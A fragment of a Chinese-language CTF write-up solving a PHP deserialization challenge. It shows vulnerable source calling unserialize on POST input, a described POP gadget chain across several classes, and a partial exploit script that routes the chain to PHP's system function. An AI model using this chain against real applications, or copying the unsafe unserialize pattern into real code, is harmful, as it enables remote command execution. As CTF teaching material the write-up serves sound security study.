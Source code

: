 ```
}

class Crypto{
    public $obj;
    public function __toString() {
        $wel = $this->obj->good;
        return "NewStar";
    }
}

class Misc{
    public function evil() {
        echo "good job but nothing";
    }
}

$a = @unserialize($_POST['fast']);
throw new Exception("Nope");
```

先说POP链

```
Start->destruct.die 👉 Crypto->tostring 👉 Reverse->__get 👉 Pwn->invoke  👉 Web->evil
```

payload👇

```
<?php
class Start{
    public $errMsg;

}

class Pwn{
    public $obj;

}

class Reverse{
    public $func;

}

class Web{
    public $func;
    public $var;

}

class Crypto{
    public $obj;

}
$a=new Start();
$b=new  Crypto();
$a->errMsg=$b;
$c=new Reverse();
$b->obj=$c;
$d=new Pwn();
$c->func=$d;
$e=new Web();
$d->obj=$e;
$e->func='system';
```